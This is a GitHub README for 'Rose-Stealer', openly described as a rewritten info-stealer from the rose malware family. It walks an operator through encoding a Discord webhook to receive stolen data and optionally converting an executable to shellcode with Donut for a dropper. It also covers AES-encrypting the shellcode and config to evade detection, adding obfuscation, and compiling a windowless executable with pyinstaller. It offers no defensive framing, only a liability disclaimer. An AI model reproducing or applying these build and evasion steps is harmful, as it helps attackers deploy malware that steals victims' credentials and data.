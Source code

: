 # 🐍 Rose-Stealer
## Rewritten version of the rose malware family.

> [!CAUTION]
> I am not liable for anything that is happening with this software.
> If you don't trust it, read the source.

> [!IMPORTANT]
> This is a small rewritten version for the rose implant.
> I don't provide support for this. You should know what you're doing.

## Requirements
- [Python 3.10+](https://python.org/downloads)
- Python-Libs installed (`pip install -r assets\requirements.txt`)

## Setup
#### [Download](https://github.com/0xRose/Rose-Stealer/archive/refs/heads/main.zip) the source code of this repository.
- Encode your Discord Webhook: `python utils\b85_encode.py DISCORD_WEBHOOK`
  - Place the output in the config.ini file
  ```ini
  [main]
  # base 85 encoded and hexified discord webhook
  discord_webhook=DISCORD_WEBHOOK <--- Put the encoded webhook here
  ```
- File dropper if wanted:
  - generate shellcode with [Donut](https://github.com/TheWover/donut) for an executable file to e.g. client\ `shellc.dat`
  - AES encrypt the shellcode file:
    - `python utils\aes_encrypt.py payload\shellc.dat payload\shellc.aes`
    - Copy the output key into your config.ini file like this:
    ```ini
    [shellcode_loader]
    # file path storing AES encrypted and compressed shellcode
    shellcode_file_name=shellc.aes
    # hexified 32 byte (128-bit AES key)
    shellcode_key=AES_KEY <--- Put the AES key here
    ```
- Edit the config file and change the False statements accordingly to True for your needs.
- Now encrypt the config file:
  - `python utils\aes_encrypt.py payload\config.ini payload\config.aes`
  - Put the output key you received into the [malware source code](https://github.com/0xRose/Rose-Stealer/blob/main/payload/main.py) on line 380:
    ```py
    key = "AES_KEY"  # hexified 32 byte key (128-bit) <--- Put the AES key here
    ```
(Additionally i would recommend to add obfuscation on the script now.)
- You can now compile it into a binary:
  - **Dropper enabled:**
  `pyinstaller --noconsole --onefile --clean --add-data "payload\shellc.aes;." --add-data "payload\config.aes;." --hidden-import cryptography --hidden-import pywin32 --hidden-import pillow --hidden-import aiohttp payload\main.py`
  - **Dropped disabled:**
  `pyinstaller --noconsole --onefile --clean --add-data "payload\config.aes;." --hidden-import cryptography --hidden-import pywin32 --hidden-import pillow --hidden-import aiohttp payload\main.py`

**Yay! Your executable is now inside of the `dist` folder.**
